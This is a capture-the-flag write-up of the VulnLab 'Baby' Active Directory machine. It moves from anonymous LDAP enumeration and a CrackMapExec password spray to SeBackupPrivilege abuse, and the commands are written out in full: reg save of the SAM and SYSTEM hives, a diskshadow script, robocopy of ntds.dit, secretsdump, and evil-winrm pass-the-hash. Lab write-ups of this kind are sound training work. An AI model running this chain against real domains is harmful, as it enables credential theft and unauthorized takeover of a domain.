 ```yaml
---
title: "VulnLab - Baby Writeup"
date: 2023-11-22
tags: ["Vulnlab", "Writeup", "AD"]
---
```

![Baby Thumbnail](content/posts/vulnlab/vl-baby/featured.png)

This is a write-up of the Baby machine on [VulnLab](https://www.vulnlab.com/) by xct. This box deals with anonymous LDAP enumeration, and exploitation of the SeBackupPrivilege to exfiltrate and crack user hashes.

## User

Hint: `Look into anonymous LDAP Access.`

I started by performing an nmap scan of the machine, and got the following results:

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-15 01:00:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-11-15T01:01:42+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2023-11-15T01:01:02+00:00
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2023-07-29T07:48:30
|_Not valid after:  2024-01-28T07:48:30
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-15T01:01:04
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

This gives us some helpful information such as the name of the domain and host we're working with (DC=baby,DC=vl), and running services.

### LDAP Enumeration

I utilized nmap to dump information about the domain with `nmap -n -sV --script "ldap* and not brute" -Pn IP`, and ldapsearch to dump the users with `ldapsearch -x -H ldap://IP:389 -b "DC=baby,DC=vl" > ldap-dump.txt` where we found a notable user:

```text
# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Teresa Bell
sn: Bell
description: Set initial password to REDACTED
givenName: Teresa
distinguishedName: CN=Teresa Bell,OU=it,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151437.0Z
displayName: Teresa Bell
uSNCreated: 12889
memberOf: CN=it,CN=Users,DC=baby,DC=vl
uSNChanged: 12905
name: Teresa Bell
objectGUID:: EDGXW4JjgEq7+GuyHBu3QQ==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819812778759642
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWWgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Teresa.Bell
sAMAccountType: 805306368
userPrincipalName: Teresa.Bell@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z
msDS-SupportedEncryptionTypes: 0
```

Teresa Bell had a password in the description for her user (redacted for walkthrough), but trying to connect with EvilWinRM failed due to not having the correct password, I decided to use CrackMapExec to spray these credentials across the other valid users we pulled from LDAP. 

### SMB Password Spray

Before we're able to spray the password we found we need to build a list of valid users, I did this by parsing the LDAP dump to pull out usernames in a format CME can read with `cat ldap-dump.txt | grep userPrincipalName | awk '{print $2}' | cut -d "@" -f 1`:

```text
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Ian.Walker
```

I used CrackMapExec to perform an SMB password spray against those users with `crackmapexec smb IP -u ./users.txt -p PASSWORD --shares`:

![SMB Password Spray](cme-smb-passwd-spray.png)

From this, we see that the password works on Caroline Robinson's account, but her password needs to be changed.

### Getting the Flag

Before we can login, we have to change the account's password. I utilized smbpasswd for this using `smbpasswd -r IP -U USER`. Next, we can login using EvilWinRM and get the user flag with `evil-winrm -i IP -u Caroline.Robinson -p PASSWORD`:

![User Flag](user-flag.png)

## Root

Hint: `Look at user privileges.`

I started by enumerating the permissions of our Caroline.Robinson user with `whoami /priv`:

![Initial Permissions](initial-privs.png)

### SeBackupPrivilege

Of note is the SeBackupPrivilege allows a user to backup any file on a machine, regardless of permissions. This includes things like the sam and system files which we can feed into secretsdump or mimikatz to extract user hashes. I moved into a directory where the user had write permissions and made copies of the sam and system files to download onto my machine with `reg save hklm\sam c:\Temp\sam` and `reg save hklm\system c:\temp\system`, and downloaded them with smbclient.

I then fed the files into mimikatz and got the following hashes:

![Local Hashes](local-creds.png)

However, when attempting to pass the Administrator hash to login with `evil-winrm -i IP -u 'administrator' -H 'HASH'`, it doesn't work because these are local accounts as opposed to domain accounts. To get the domain administrator hash that we need to log in, we have to use the SeBackupPrivilege to dump the ntds.dit file which is a database containing AD information including user objects. 

### Getting the Flag

We can make a copy of ntds.dit and dump it using diskshadow and robocopy.

I first created the following script to run with diskshadow, saved as `backup.txt`:

```text
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

I ran it with `diskshadow /s backup.txt`, and was able to dump the ntds.dit with `robocopy /b E:\Windows\ntds . ntds.dit`. Feeding those into secretsdump with `impacket-secretsdump -ntds ntds.dit -system system.hive local` we get the domain administrator hash which we can pass to login and get the root flag:

![Root Flag](content/posts/vulnlab/vl-baby/root-flag.png)
